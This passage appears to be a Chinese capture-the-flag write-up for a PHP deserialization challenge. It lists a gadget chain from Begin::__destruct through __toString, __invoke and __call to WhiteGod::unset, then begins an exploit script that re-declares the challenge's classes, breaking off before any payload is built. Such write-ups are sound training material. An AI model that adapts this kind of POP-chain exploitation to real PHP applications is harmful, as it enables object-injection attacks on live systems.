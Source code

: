 

### 利用链

```
WhiteGod::unset
CTF::end  -->  WhiteGod::unset
Handle::__call  -->  CTF::end
Super::__invoke  -->  Handle::__call
Then::__toString  -->  Super::__invoke
Begin::__destruct  -->  Then::__toString
```

### exp

```php
<?php

use Begin as GlobalBegin;
use CTF as GlobalCTF;
use Handle as GlobalHandle;
use Super as GlobalSuper;
use Then as GlobalThen;
use WhiteGod as GlobalWhiteGod;

class Begin{
    public $name;

    public function __destruct()
    {
        if(preg_match("/[a-zA-Z0-9]/",$this->name)){
            echo "Hello";
        }
    }
}

class Then{
    public $func;

    public function __toString()
    {
        ($this->func)();
        return "Good Job!";
    }

}

class Handle{
    public $obj;

    public function __call($func, $vars)
    {
        $this->obj->end();
    }

}

class Super{
    public $obj;
    public function __invoke()
    {
        $this->obj->getStr();
    }

}
```